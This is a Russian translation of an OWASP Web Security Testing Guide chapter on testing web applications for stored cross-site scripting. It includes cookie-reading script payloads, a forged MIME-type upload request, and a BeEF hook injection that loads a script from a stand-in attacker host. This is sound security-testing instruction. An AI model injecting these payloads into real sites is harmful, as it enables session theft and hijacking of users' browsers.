

---

layout: col-document
title: WSTG - Latest
tags: WSTG

---


# Тестирование хранимых межсайтовых скриптов (Stored XSS)

|ID          |
|------------|
|WSTG-INPV-02|

## Обзор

Хранимые [межсайтовые скрипты (XSS)](https://owasp.org/www-community/attacks/xss/) — самый опасный тип межсайтового скриптинга. Web-приложения, которые позволяют пользователям хранить данные, потенциально подвержены атакам такого типа. В этой главе приведены примеры инъекции хранимых межсайтовых скриптов и связанных с ними сценариев эксплуатации

Хранимый XSS появляется, когда web-приложение получает входные данные от пользователя, которые могут быть вредоносными, а затем сохраняет их для последующего использования. Сохранённые входные данные некорректно фильтруются. Как следствие, вредоносные данные появятся на web-сайте и запустятся в браузере пользователя с привилегиями web-приложения. Поскольку эта уязвимость обычно включает в себя по крайней мере два запроса к приложению, она также может называться XSS второго порядка (или II типа).

Эта уязвимость может использоваться для проведения ряда браузерных атак, в том числе:

- Перехват браузера другого пользователя
- Захват чувствительной информации, просматриваемой пользователями приложения
- Псевдо-дефейс приложения
- Сканирование портов внутренних хостов («внутренних» по отношению к пользователям web-приложения)
- Направленная доставка уязвимостей браузера
- Другие вредоносные действия.

Хранимый XSS не нуждается в использовании вредоносной ссылки. Его эксплуатация происходит, когда пользователь посещает страницу с хранимым XSS. Типичный сценарий атаки включает следующие этапы:

- Злоумышленник сохраняет вредоносный код на уязвимой странице
- Пользователь проходит аутентификацию в приложении
- Пользователь посещает уязвимую страницу
- Вредоносный код выполняется в браузере пользователя

Данный тип атаки также можно проэксплуатировать с помощью фреймворков для эксплуатации браузеров, например, [BeEF](https://beefproject.com) или [XSS Proxy](http://xss-proxy.sourceforge.net/). Эти фреймворки позволяют разрабатывать сложные атаки на JavaScript.

Хранимый XSS особенно опасен в областях приложений, к которым имеют доступ пользователи с высокими привилегиями. Когда администратор посещает уязвимую страницу, его браузер автоматически исполняет атаку. Это может привести к раскрытию чувствительной информации, такой как токены авторизации сессии.

## Задачи тестирования

- Выявить хранимые входные данные, которые отражаются на стороне клиента.
- Оценить входные данные, которые он принимает, и кодировку, которая применяется при возврате (при наличии).

## Как тестировать

### Тестирование методом чёрного ящика

Процесс выявления хранимых XSS-уязвимостей аналогичен процессу, описанному при [тестировании отражённых XSS](01-Testing_for_Reflected_Cross_Site_Scripting.md).

#### Формы ввода

Первый шаг — определить все точки, в которых пользовательский ввод сохраняется в серверной части, а затем отображается приложением. Типичные примеры хранимого пользовательского ввода можно найти в:

- профиле пользователя: позволяет пользователю редактировать/изменять данные профиля, такие как имя, фамилия, псевдоним, аватар, изображение, адрес и т.д.;
- корзине покупок: позволяет пользователю сохранять товары, чтобы их можно было просмотреть позже;
- файловом менеджере: позволяет загружать файлы;
- настройках предпочтений: позволяет пользователю устанавливать предпочтения;
- форуме/доске объявлений: позволяет обмениваться сообщениями между пользователями;
- блоге: если он разрешает пользователям отправлять комментарии;
- журнале событий: если он сохраняет пользовательские данные.

#### Анализ HTML-кода

Входные данные, хранящиеся в приложении, обычно используются в тегах HTML, но их также можно найти в скриптах JavaScript. На этом этапе крайне важно понять, сохраняется ли ввод и как он позиционируется в контексте страницы. В отличие от отражённого XSS, пентестер также должен исследовать побочные каналы, по которым приложение получает и сохраняет вводимые пользователем данные.

**Примечание**: Все области приложения, доступные администраторам, должны быть протестированы на предмет наличия данных, предоставляемых пользователями.

**Пример**: Email, хранимый в `index2.php`

\
*Рисунок 4.7.2-1: Пример хранимых входных данных*

HTML-код index2.php, где находится значение email:

```html
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" />
```

В этом случае тестировщику необходимо найти способ внедрить код вне тега `<input>`, например, как показано ниже:

```html
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> MALICIOUS CODE <!-- />
```

#### Тестирование хранимых XSS

Включает в себя тестирование мер контроля входных данных и фильтрации в приложении. Базовые примеры инъекций в этом случае:

- `aaa@aa.com&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;`
- `aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E`

Убедитесь, что входные данные передаются через приложение. Обычно это включает в себя отключение JavaScript, если меры защиты реализованы на стороне клиента, или изменение HTTP-запроса с помощью web-прокси. Также важно протестировать одну и ту же инъекцию как с HTTP-запросами GET, так и с POST. Приведённая выше инъекция приводит к появлению всплывающего окна, содержащего значения cookie.

> \
> *Рисунок 4.7.2-2: Пример хранимых входных данных - 2*
>
> Код HTML после инъекции:
>
> ```html
> <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>
> ```
>
> Входные данные сохраняются, а полезная нагрузка XSS выполняется браузером при перезагрузке страницы. Если входные данные экранируются приложением, необходимо протестировать приложение на наличие фильтров XSS. Например, если строка "SCRIPT" заменена пробелом или нулевым символом, то это может быть потенциальным признаком XSS-фильтрации. Существует множество методов, позволяющих уклониться от входных фильтров (см. сценарий [Тестирование отражённых XSS](01-Testing_for_Reflected_Cross_Site_Scripting.md)). Настоятельно рекомендуем обращаться к памятке [Обход фильтров XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) и странице [Mario](https://cybersecurity.wtf/encoding/), которые предоставляют обширный перечень XSS-атак и обходов фильтрации. Более подробную информацию см. в разделах [Технические руководства](#технические-руководства) и [Инструменты](#инструменты).

#### Эксплуатация хранимых XSS с BeEF

Хранимые XSS можно эксплуатировать с помощью фреймворков [BeEF](https://www.beefproject.com) и [XSS Proxy](http://xss-proxy.sourceforge.net/).

Типичный сценарий эксплуатации в BeEF включает в себя:

- Инъекция хука JavaScript, который подключается к фреймворку эксплуатации браузера злоумышленника (англ.: browser exploitation framework, BeEF)
- Ожидание просмотра пользователем приложения уязвимой страницы, на которой отображается хранимый ввод.
- Контроль браузера пользователя приложения через консоль BeEF.

Хук JavaScript можно внедрить, используя уязвимость XSS в web-приложении.

**Пример**: Инъекция через BeEF в `index2.php`:

```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

Когда пользователь загрузит страницу `index2.php`, браузер выполнит срипт `hook.js`. Затем можно получить доступ к cookie, снимку экрана пользователя, его буферу обмена и запустить сложные атаки XSS.

> \
> *Рисунок 4.7.2-3: Пример инъекции в Beef*
>
> Эта атака особенно эффективна на уязвимых страницах, которые просматриваются многими пользователями с разными привилегиями.

#### Загрузка файла

Если web-приложение позволяет загружать файлы, важно проверять, возможно ли загрузить HTML-контент. Например, если разрешены файлы HTML или TXT, полезную нагрузку XSS можно включить в загруженный файл. Пентестер также должен проверить, позволяет ли загрузка файла устанавливать произвольные MIME-типы.

Рассмотрим следующий HTTP-запрос POST для загрузки файла:

```http
POST /fileupload.aspx HTTP/1.1
[…]
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain

test
```

Этот недостаток дизайна может использоваться в атаках, связанных с неправильным обращением с MIME-типами в браузере. Например, безобидные на вид файлы, такие как JPG и GIF, могут содержать полезную нагрузку XSS, которая выполняется при их загрузке браузером. Это возможно, если вместо MIME-типа для изображения, например, `image/gif`, можно установить значение в `text/html`. В этом случае браузер клиента будет обрабатывать файл как HTML.

Подделанный HTTP-запрос POST:

```http
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
Content-Type: text/html

<script>alert(document.cookie)</script>
```

Также учтите, что Internet Explorer (IE) обрабатывает MIME-типы не так, как это делают Mozilla Firefox или другие браузеры. Например, IE обрабатывает TXT-файлы с HTML-контентом как HTML-контент. Для дополнительной информации по обработке MIME обратитесь к разделу [Технические руководства](#технические-руководства) в конце этой главы.

### Слепой межсайтовый скриптинг

Слепой межсайтовый скриптинг — это форма хранимого XSS. Обычно он возникает, когда полезная нагрузка злоумышленника хранится на сервере/инфраструктуре, а затем отражается обратно жертве из серверного приложения. Например, в формах обратной связи злоумышленник может отправить вредоносную нагрузку с помощью формы, и как только пользователь сервера/администратор приложения увидит сообщение злоумышленника через приложение на сервере, полезная нагрузка будет воспроизведена. Слепой межсайтовый скриптинг трудно подтвердить в реальном сценарии, но одним из лучших инструментов для этого является [XSS Hunter](https://xsshunter.com/).

> Примечание: при выполнении тестов безопасности необходимо тщательно  просчитывать последствия для конфиденциальности от использования общедоступных или сторонних сервисов. См. [Инструменты](#инструменты).

### Тестирование методом серого ящика

Тестирование методом серого ящика похоже на метод чёрного. В этом случае пентестер частично знает приложение, ему может быть известна информация о пользовательском вводе, мерах по контролю входных данных и о том, как введённое отображается пользователю.

В зависимости от имеющейся информации обычно рекомендуется проверять, как пользовательский ввод обрабатывается приложением, а затем сохраняется в серверной части. Рекомендуются следующие шаги:

- Используя web-приложение, вводите специальные/недопустимые символы.
- Анализируйте ответ(ы) приложения.
- Выясните наличие мер контроля входных данных.
- Получите доступ к серверной части и проверьте, сохранены ли входные данные, и как они хранятся.
- Проанализируйте исходный код и разберитесь, как хранимые входные данные отображаются в приложении.

Если исходный код доступен (как при тестировании методом белого ящика), необходимо проанализировать все переменные, используемые в формах ввода. В частности, такие языки программирования, как PHP, ASP и JSP, используют предопределённые переменные/функции для хранения входных данных из HTTP-запросов GET и POST.

В следующей таблице приведены специальные переменные и функции, на которые следует обратить внимание при анализе исходного кода:

| **PHP**        | **ASP**           |  **JSP**         |
|----------------|-------------------|------------------|
| `$_GET` — переменные HTTP GET  | `Request.QueryString` — HTTP GET | `doGet`, `doPost` servlets — HTTP GET и POST |
| `$_POST` — переменные HTTP POST| `Request.Form` — HTTP POST | `request.getParameter` — переменные HTTP GET/POST |
| `$_REQUEST` — переменные HTTP POST, GET и COOKIE | `Server.CreateObject` — используется для загрузки файлов |
| `$_FILES` — переменные для загрузки файлов по HTTP |

**Примечание**: приведенная выше таблица представляет собой лишь краткое изложение наиболее важных параметров, но изучить необходимо все параметры, вводимые пользователем.

## Инструменты

- [Mario's PHP Encoder](https://cybersecurity.wtf/encoding/) помогает кодировать в/из разных наборов символов произвольные тексты, которые можно использовать в настраиваемых полезных нагрузках.
- [Hackvertor](https://hackvertor.co.uk/public) — онлайн-инструмент, который позволяет использовать множество типов кодирования и обфускации JavaScript (или любого строкового ввода).
- [BeEF](https://www.beefproject.com) — фреймворк для эксплуатации браузера и демонстрации воздействия уязвимостей браузера в режиме реального времени.
- [XSS-Proxy](http://xss-proxy.sourceforge.net/) — инструмент для атак с использованием межсайтовых скриптов.
- [Burp Proxy](https://portswigger.net/burp/) представляет собой интерактивный HTTP/S прокси-сервер для атак и тестирования web-приложений.
- [Greasemonkey](https://www.greasespot.net/) позволяет тестировать web-приложения на наличие недостатков межсайтового скриптинга.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org) представляет собой интерактивный HTTP/S прокси-сервер для атаки и тестирования web-приложений со встроенным сканером.
- [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express) находит все виды уязвимостей межсайтового скриптинга, включая часто пропускаемый слепой XSS.

## Ссылки

### Ресурсы OWASP

- [Памятка по обходу фильтров XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Книги

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

### Технические руководства

- [CERT: "CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests"](https://resources.sei.cmu.edu/library/asset-view.cfm?assetID=496186)
- [Amit Klein: "Cross-site Scripting Explained"](https://courses.csail.mit.edu/6.857/2009/handouts/css-explained.pdf)
- [Gunter Ollmann: "HTML Code Injection and Cross-site Scripting"](http://www.technicalinfo.net/papers/CSS.html)
- [CGISecurity.com: "The Cross Site Scripting FAQ"](https://www.cgisecurity.com/xss-faq.html)
